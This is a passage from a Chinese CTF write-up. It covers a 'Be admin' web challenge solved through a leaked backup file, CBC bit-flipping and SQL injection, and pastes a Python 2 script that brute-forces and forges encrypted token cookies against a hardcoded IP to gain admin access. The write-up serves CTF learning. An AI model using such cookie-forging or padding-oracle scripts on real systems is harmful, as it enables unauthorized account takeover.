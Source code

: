 没啥说的，就把md5改成了sha1

## Be admin ##

存在index.php.bak,cbc反转加密。配合sql注入。

题目不是我做的，所以不多扯了，贴上脚本

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

import base64
import requests
import urllib

aa = ')\xa5\xa1\xec>)F\x119\xbc\xfcor\x11\xd9\xa4'
url = "http://218.2.197.235:23737/"
cookie = {"PHPSESSID":"qe6s9hjkpqrfcv07hf1ous71m7"}

iv = ["\x00"]*16
cipher = ['\x00', 236, 46, 92, 100, 49, 71, 211, 255, 106, 69, 3, 16, 13, 233, 54]

plain = "admin"
plain += 11*chr(11)
plain = list(plain)

# for i in xrange(16,17):
# 	for j in xrange(1,i):
# 		iv[16-i+j] = chr(cipher[16-i+j] ^ i)
# 	for x in xrange(218,256):
# 		iv[16-i] = chr(x)
# 		tmp_iv = "".join(iv)
# 		cookie['token'] = urllib.quote(base64.b64encode(tmp_iv))
# 		print cookie
# 		try:
# 			r = requests.get(url, cookies=cookie)
# 			print "%s"%x, r.content
# 		except:
# 			print cipher
# 			print x
# 			exit();
# 		if "ctfer!" in r.content:
# 			break
# 	else:
# 		print cipher
# 		exit();
# 	cipher[16-i] = x ^ i
# 	break

# print cipher

# for x in cipher:
# 	print hex(x)

plain = ['a', '\x88', 'C', '5', '\n', ':', 'L', '\xd8', '\xf4', 'a', 'N', '\x08', '\x1b', '\x06', '\xe2', '=']

for x in xrange(193,256):
	plain[0] = chr(x)
	tmp_p = "".join(plain)
	cookie['token'] = urllib.quote(base64.b64encode(tmp_p))
	r = requests.get(url, cookies=cookie)
	print x
```

  [1]: http://static.zybuluo.com/LoRexxar/g723vz1mg3ggwnzyibo9yf74/image_1bb32tqf61up77bn1mgpre7c4j9.png
  [2]: http://static.zybuluo.com/LoRexxar/eufulrcwusgaimxpspk9ukra/image_1bb32ubhv13cp1s2u1biup751ra9m.png
  [3]: http://static.zybuluo.com/LoRexxar/5jeqqi6bvoku72l77d3c0zsv/image_1bb32up8j1di9h6p1eg97fleh13.png
  [4]: http://static.zybuluo.com/LoRexxar/ex5ltlcnb355v32vrqus56g5/image_1bb35c0pc1tnh19vi150lh7ma51u.png
  [5]: http://static.zybuluo.com/LoRexxar/46ouk2f7idkxudoc57cy3kg5/image_1bb35dook13ad2va11hr1g1q1kg52b.png
  [6]: http://static.zybuluo.com/LoRexxar/njo0c3o4x7ye7zb1r9exlt8n/image_1bb3e0eq5ppbvk13rf1nrqhjn2o.png
  [7]: http://static.zybuluo.com/LoRexxar/btey08y9hxtcmryxt0ojtntl/%7B2C8B3DAC-ABA2-1DE1-B5E4-5084A09E2F83%7D.png